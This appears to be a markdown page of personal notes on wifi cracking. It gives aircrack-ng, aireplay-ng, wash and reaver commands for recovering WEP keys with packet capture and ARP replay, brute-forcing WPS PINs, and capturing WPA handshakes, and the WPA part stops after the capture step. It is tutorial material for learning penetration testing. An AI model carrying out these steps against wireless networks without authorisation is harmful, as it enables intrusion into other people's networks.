 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wps hacking.

`wash --interface wlan0mon` a wps recon tool to search around for wps enabled AP/routers.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p><code>wash</code></p></figcaption></figure>

`aireplay-ng --fakeauth 30 -a targetMacAddr -c wirelessAdapterMacAddr wlan0mon` This creates association with the target network every 30 seconds.

`reaver --bssid targetBssid --channel targetChannel -i wlan0mon -vvv --no-associate` running reaver to carryout bruteforcing.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><code>reaver</code></p></figcaption></figure>

### wpa / wpa2 hacking

`airodump-ng --bssid 98:A9:42:27:A2:CA --channel 10 --write wpa_handshake wlan0mon` to create a handshake .cap file.&#x20;



